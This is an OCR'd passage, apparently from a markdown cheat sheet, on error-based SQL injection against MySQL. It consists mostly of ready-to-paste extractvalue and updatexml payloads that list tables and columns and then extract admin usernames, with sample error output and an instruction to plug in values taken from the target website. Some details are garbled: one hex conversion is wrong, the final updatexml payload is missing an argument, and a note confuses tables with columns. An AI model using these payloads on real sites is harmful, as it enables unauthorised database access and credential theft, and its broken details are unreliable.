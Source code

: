 ```
Output error:  
>XPATH SYNTAX ERROR: '**AUX_db**'35  

**Retrieving tables**  

Retrieve the first table:  

-Using XPATH extractvalue:  
```and extractvalue(0x0a,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 0,1)))-- -```

-Using XPATH updatexml:  
```and updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 0,1)),null)-- -```

Output error:  
>XPATH SYNTAX ERROR: '**AUX_column1**'35  

Retrieve the second table (*NOTE:* Replace the bold number with bigger number to retrieve the other table [limit **0**,1]. For example, number 0 will retrieve the 1st table, number 1 will do the 2nd column, number 2 will do the 3nd column and so on:

-Using XPATH extractvalue:  
```and extractvalue(0x0a,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 1,1)))-- -```

-Using XPATH updatexml:  
```and updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 1,1)),null)-- -```

Output error:  
>XPATH SYNTAX ERROR: '**AUX_column2**'35  

**Retrieving columns**  

First, convert database and table's name into 0xHEX value:

```
database: AUX_db -> 0xa4155585f6462
table: AUX_column1 -> 0x4155585f636f6c756d6e31
```

-Using XPATH extractvalue:  
```and extractvalue(0x0a,concat(0x0a,(select column_name from information_schema.columns where table_schema=0x4155585f6462 and table_name=0x4155585f636f6c756d6e31 limit 0,1)))-- -```

-Using XPATH updatexml:  
```and updatexml(null,concat(0x0a,(select column_name from information_schema.columns where table_schema=0x4155585f6462 and table_name=0x4155585f636f6c756d6e31 limit 0,1)),null)-- -```

Output error:  
>XPATH SYNTAX ERROR: '**admin_username**'35  

**Retrieving data inside columns**

Before using the following 2 queries, make sure you replace the values with your correct values you got from the website:  

-Using XPATH extractvalue:  
```and extractvalue(0x0a,concat(0x0a,(select concat(admin_username) from AUX_db.AUX_column1 limit 0,1)))```

-Using XPATH updatexml:  
```and updatexml(0x0a,concat(0x0a,(select concat(admin_username) from AUX_db.AUX_column1 limit 0,1)))```
